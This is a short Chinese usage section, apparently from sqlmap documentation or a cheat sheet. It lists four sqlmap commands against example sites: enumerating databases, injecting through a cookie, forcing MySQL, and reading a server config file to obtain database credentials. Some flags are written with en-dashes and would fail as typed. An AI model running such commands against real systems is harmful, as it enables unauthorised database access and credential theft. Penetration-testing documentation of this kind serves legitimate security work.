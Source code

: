 ## 直接使用
- 对目标 URL https://www.vuln.cn/post.php?id=1 进行 SQL 注入测试，强制使用 SSL 连接，并通过本地代理服务器 http://127.0.0.1:7890 发送请求。命令会自动执行所有操作，无需用户交互，并尝试列出目标数据库管理系统中的所有数据库名称：
```
python sqlmap.py -u "https://www.vuln.cn/post.php?id=1" --force-ssl --proxy "http://127.0.0.1:7890" --batch --dbs
```

- 对目标 URL http://www.vuln.cn 进行 SQL 注入测试，同时携带 id=11 的 Cookie，以模拟用户登录状态或绕过基于 Cookie 的限制。命令以测试级别 2 运行，检测更多潜在的注入点：
```
python sqlmap.py -u "http://www.vuln.cn" –cookie "id=11" --level 2
```

- 对目标 URL www.xxxx.com/product/detail/id/3*.html 进行 SQL 注入测试，目标数据库管理系统指定为 MySQL。命令以详细级别 3 运行，输出更多调试信息，帮助用户更好地了解注入过程：
```
python sqlmap.py -u "www.xxxx.com/product/detail/id/3*.html" --dbms=mysql -v 3
```

- 从文件 c:\request.txt 中读取 HTTP 请求，并对请求中的 id 参数进行 SQL 注入测试，目标数据库管理系统指定为 MySQL。命令尝试读取目标服务器上的文件 e:\www\as\config.php，这通常用于获取敏感信息（如数据库配置文件）：
```
python sqlmap.py -r "c:\request.txt" -p id –dbms mysql –file-read="e:\www\as\config.php"
```